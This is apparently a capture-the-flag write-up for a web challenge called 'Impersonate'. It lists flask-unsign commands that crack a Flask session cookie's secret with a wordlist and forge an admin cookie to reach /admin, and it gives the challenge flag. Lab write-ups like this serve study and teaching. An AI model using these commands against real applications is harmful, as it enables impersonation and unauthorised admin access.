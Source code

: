 # Impersonate 

Solved by: @Cookies to SELL

- Category: web
- Description: One may not be the one they claim to be.
- Challenge File: app.py

### Solutions:

1. Login as any user at first place. (Just notice the cookies quite different since different timezone).(useless cookies in script):X
2. flask-unsign --wordlist hello.txt --unsign --cookie 'cookiesfromwebsite' --no-literal-eval >> will return secret.
3. flask-unsign --sign --secret <puthere> --cookie "{'is\_admin': True, 'uid': '02ec19dc-bb01-5942-a640-7099cda78081', 'username': 'administrator'}"
4. access /admin endpoint and change cookies from step3. 


**Flag:** `PCTF{Imp3rs0n4t10n_Iz_Sup3r_Ezz}`

